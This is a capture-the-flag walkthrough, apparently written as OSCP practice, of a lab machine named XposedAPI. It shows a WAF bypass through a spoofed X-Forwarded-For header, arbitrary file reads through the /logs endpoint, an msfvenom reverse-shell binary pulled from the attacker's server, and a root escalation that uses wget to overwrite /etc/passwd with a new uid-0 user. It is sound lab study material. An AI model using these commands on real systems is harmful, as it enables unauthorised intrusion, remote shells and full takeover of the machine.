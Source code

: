 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: XposedAPI
tags: ["priv-esc", "feroxbuster", "Gunicorn", "web-attack", "request-smuggling"]
---
```

**Start 11:50 08-01-2025**

---
```
Scope:
192.168.247.134
```
## Recon

### Nmap

```bash
sudo nmap -sC -sT -sV -oN nmap 192.168.247.134 -p- -T5 -vvvv --min-rate=5000

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
13337/tcp open  http    syn-ack Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: gunicorn/20.0.4
|_http-title: Remote Software Management API
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

SSH and a HTTP port on `13337`.

HTTP port running **Gunicorn 20.0.4**.

I found the [following blog post](https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-smuggling/) on a vulnerability matching this version:

![](../../../assets/eb617303b99b98c8e5b0caba3bfebae9.png)

Let's check the website for now.

![](../../../assets/fc3527c5e80d924166e36cbaf44c5144.png)

![](../../../assets/7eef5b5cf1c4b8829d1d4da1af29e7a5.png)

It gives us some endpoints with the intended usage.

Let's enumerate further and check for hidden directories.


### Feroxbuster

```bash
feroxbuster --url http://192.168.247.134:13337 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![](../../../assets/66081e2318c7b8c7e6cba4edf94d826d.png)

We don't see any hidden directories that differ from the ones on the website.


## Initial Foothold

### 13337/TCP - HTTP

We start testing the endpoints one by one and find out by checking the `/logs` endpoint that the **WAF** (web app firewall) is activated:

![](../../../assets/d5bd5cf5aea7e897c9742591679dad20.png)

From the previously found blog we find the following:

![](../../../assets/701faa46f3ed6feb72cf6d712b4c5187.png)

We need to specify the following header in order to smuggle the request:

```bash
X-Forwarded-For: localhost
```

Now when we initiate our request through repeater we see the following response:

![](../../../assets/46b49fc59102b0d9f1564868e412a0f6.png)

:::tip
Remember, *Error* = good!
:::

We get a 404 error but the text specifies that *no file has been specified*.

This means we just need to issue the file path to get access, let's try it out using `/etc/passwd`.

```bash
GET /logs?file=/etc/passwd HTTP/1.1
```

![](../../../assets/7fdc6afc350738f8fcef8ccb98026f1b.png)

Awesome, it worked! 

We notice the *clumsyadmin* user and their `/home` directory.


### local.txt

Using this technique we can get `local.txt` right away.

```bash
GET /logs?file=/home/clumsyadmin/local.txt HTTP/1.1
```

![](../../../assets/56163778fcc100b3513e2ec9c5b7b57d.png)


## Reverse Shell

![](../../../assets/eac71c2c0ba5ef88a2e7e406fffe83d7.png)

Via the `/update` endpoint we will upload a reverse shell payload created using `msfvenom`.

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=445 -f elf -o shell
```

![](../../../assets/1d5298f33cdb0125d63267fc90d833fc.png)

We then add it to the request.

```bash
{
	"user":"clumsyadmin",
	"url":"http://192.168.45.236/shell"
}
```

![](../../../assets/a0013608afcb231321fc3180de0ff88c.png)

:::caution
Remember to switch the Request mode to *POST*.
:::

The response code is *200 - OK* which means the file has been succesfully uploaded, let's get our shell. For this we will go to the `/restart` endpoint and this should prompt the shell to work.

![](../../../assets/208c3690fd79e86a418e3f1d00771156.png)

Request via the endpoint wouldn't work, so I used Burp.

![](../../../assets/b4437e4523222f114803afda30b8de49.png)

![](../../../assets/2373c8049300fe59b5f7c6c773763093.png)

Then after upgrading our shell we can get to work on escalating privileges.


## Privilege Escalation

:::note
I uploaded my `id_rsa.pub` key as `authorized_keys` to the newly created `.ssh` folder on the target so I could get an SSH shell.
:::

![](../../../assets/7422dfccab35e6e070a11ed133fe9048.png)

We were not allowed to run `sudo -l`. 

![](../../../assets/ac646e55573a2eb56dfb1cf1236d8c56.png)

And we couldn't run `linpeas`.

I then enumerated the system some more:

![](../../../assets/b5a8b30b87e56e894a2faf7f4d883b0b.png)

![](../../../assets/0badad6fd904e80a101fdd5d739c616a.png)

![](../../../assets/267a0cc2f9476a0ed9d085f916f935a8.png)

After doing some searching I found this:

![](../../../assets/51904af152073b4241ae40d8cf0b26fb.png)

But the problem still existed of us not being able to `chmod` the script into an executable, thus rendering it useless.

![](../../../assets/d74f379a27688934aece0b73ec1b1519.png)

There was another PoC but this was yet again another script.

Let's check whether we can use any of the binaries.

:::note
We find the `/wget` binary to be particularly useful.
:::

![](../../../assets/e5e889f1b44897285c89af484b435f9d.png)

We can use the binary to overwrite the `/etc/passwd` file to upload our own `/etc/passwd` which allows us to `su` to `kali`.

```bash
/usr/bin/wget http://192.168.45.236/passwd -O /etc/passwd
```

We must now generate a new user and a new `passwd` file which we will upload:

```bash
# Generate new user
openssl passwd -1 -salt user3 pass123

# Create new passwd file
cat > passwd                         
user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root/root:/bin/bash

# Overwrite existing /etc/passwd file
wget http://192.168.45.236/passwd -O /etc/passwd
```

![](../../../assets/a3265e054a516c36b69c6b2b5742b913.png)

And we have `root` privileges.


### proof.txt

![](../../../assets/b5af514643700ab38876d5f4ddef99c6.png)

---

**Finished 14:23 08-01-2025**

[^Links]: [[OSCP Prep]]
